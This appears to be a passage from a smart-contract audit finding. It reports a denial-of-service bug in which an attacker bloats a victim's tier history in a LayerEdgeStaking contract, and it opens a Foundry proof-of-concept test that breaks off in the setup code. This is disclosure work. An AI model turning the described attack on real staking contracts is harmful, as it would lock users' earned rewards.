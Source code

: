 ### Impact

DOS on interest claims for the victim, locking their earned rewards indefinitely.

Under Sherlock’s DOS criteria (section V), 

> “funds locked for more than a week” 

qualifies this as Medium severity.

### PoC
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test, console2} from "forge-std/Test.sol";
import {LayerEdgeStaking} from "@src/stake/LayerEdgeStaking.sol";
import {DeployLayerEdgeStaking} from "@script/DeployLayerEdgeStaking.s.sol";
import {HelperConfig, NetworkConfig} from "@script/HelperConfig.s.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

/**
 * @title TierHistoryBloatBugPOC
 * @notice Proof of Concept for the bug where a malicious actor can cause a victim's tier history
 * array to grow so large that their interest claim transactions eventually run out of gas and revert.
 */
contract TierHistoryBloatBugPOC is Test {
    LayerEdgeStaking public staking;
    HelperConfig public helperConfig;
    IERC20 public token;
    address public admin;

    // Test users
    address public attacker = makeAddr("attacker");
    address public victim = makeAddr("victim");
    address public normalUser = makeAddr("normalUser");

    // Constants
    uint256 public constant TIER1_THRESHOLD = 3000 * 1e18; // 3000 tokens
    uint256 public constant PRECISION = 1e18;
    uint256 public constant INITIAL_BALANCE = 10000 * 1e18; // 10000 tokens
    uint256 public constant REWARDS_AMOUNT = 100000 * 1e18; // 100000 tokens for rewards

    // For demonstrating the DOS attack
    uint256 public constant TOGGLE_COUNT = 10; // Number of tier boundary toggles to demonstrate
    uint256 public constant BLOCK_GAS_LIMIT = 30000000; // 30M is a typical block gas limit

    // Track tier history entries
    mapping(address => uint256) public tierHistoryEntries;

    function setUp() public {
        // Deploy the staking contract
        DeployLayerEdgeStaking deployer = new DeployLayerEdgeStaking();
        (staking, helperConfig) = deployer.run();

        // Get the staking token and admin address
        NetworkConfig memory config = helperConfig.getActiveNetworkConfig();
        token = IERC20(config.stakingToken);
        admin = config.owner;

        // Fund the staking contract with rewards
        vm.startPrank(admin);
        token.transfer(address(staking), REWARDS_AMOUNT);
        token.approve(address(staking), REWARDS_AMOUNT);
```